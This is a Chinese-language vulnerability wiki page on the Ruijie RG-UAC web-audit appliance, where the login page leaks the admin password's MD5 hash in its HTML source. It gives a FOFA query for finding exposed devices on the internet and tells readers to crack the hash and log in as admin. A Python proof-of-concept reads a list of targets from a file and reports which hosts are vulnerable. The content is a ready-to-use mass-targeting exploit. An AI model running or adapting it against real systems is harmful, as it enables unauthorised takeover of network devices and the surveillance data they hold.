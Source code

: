 <languages  />

FOFA
----

     title="RG-UAC登录页面" && body="admin"

F12查看网页源码搜索关键字`admin`

[400px](檔案:Cnvd1.jpg "wikilink")

使用password值 md5解密即可登录。(用户名admin)

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mFile         >>> ip.txt                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
            if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
            else:
                print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
        except Exception as e:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

    def Scan(file_name):
        with open(file_name, "r", encoding='utf8') as scan_url:
            for url in scan_url:
                if url[:4] != "http":
                    url = "http://" + url
                url = url.strip('\n')
                try:
                    POC_1(url)

                except Exception as e:
                    print("\033[31m[x] 请求报错 \033[0m".format(e))
                    continue

    if __name__ == '__main__':
        title()
        file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
        Scan(file_name)

参考
----

<https://mp.weixin.qq.com/s/LbSPzt__mKdNN83RhJ2bwA>